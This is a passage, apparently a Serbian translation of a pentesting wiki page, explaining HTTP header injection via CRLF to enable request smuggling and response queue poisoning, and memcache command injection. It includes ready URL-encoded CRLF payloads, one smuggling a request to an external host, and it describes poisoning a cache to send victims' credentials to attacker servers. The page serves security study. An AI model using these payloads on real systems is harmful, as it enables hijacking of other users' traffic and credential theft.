 ### Umetanje zaglavlja za zahtevanje šverca

Za više informacija o ovoj tehnici i potencijalnim problemima [**proverite originalni izvor**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning).

Možete ubaciti ključna zaglavlja kako biste osigurali da **backend održava otvorenu vezu** nakon odgovora na početni zahtev:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```

Nakon toga, može se specificirati drugi zahtev. Ovaj scenario obično uključuje [HTTP request smuggling](http-request-smuggling/), tehniku gde dodatni zaglavlja ili delovi tela dodati od strane servera nakon ubacivanja mogu dovesti do različitih sigurnosnih eksploatacija.

**Eksploatacija:**

1. **Zlonamerno ubacivanje prefiksa**: Ova metoda uključuje trovanje zahteva sledećeg korisnika ili keša veb stranice specificiranjem zlonamernog prefiksa. Primer:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

2. **Izrada prefiksa za trovanje reda odgovora**: Ovaj pristup uključuje kreiranje prefiksa koji, kada se kombinuje sa završnim smećem, formira potpuni drugi zahtev. Ovo može pokrenuti trovanje reda odgovora. Primer:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

### Memcache ubacivanje

Memcache je **skladište ključ-vrednost koje koristi protokol u čistom tekstu**. Više informacija na:

{% content-ref url="../network-services-pentesting/11211-memcache/" %}
[11211-memcache](../network-services-pentesting/11211-memcache/)
{% endcontent-ref %}

**Za potpune informacije pročitajte** [**originalni članak**](https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/)

Ako platforma uzima **podatke iz HTTP zahteva i koristi ih bez provere** za izvršavanje **zahteva** ka **memcache** serveru, napadač može iskoristiti ovu aktivnost da **ubaci nove memcache komande**.

Na primer, u originalno otkrivenom propustu, ključevi keša su korišćeni da vrate IP adresu i port kojem bi korisnik trebalo da se poveže, i napadači su mogli **ubaciti memcache komande** koje bi **trovale** **keš da pošalje detalje žrtava** (uključujući korisnička imena i lozinke) napadačevim serverima:

<figure><img src="../.gitbook/assets/image (6) (1) (4).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/ba72cd16-2ca0-447b-aa70-5cde302a0b88/body-578d9f9f-1977-4e34-841c-ad870492328f_10.png?w=1322&#x26;h=178&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>
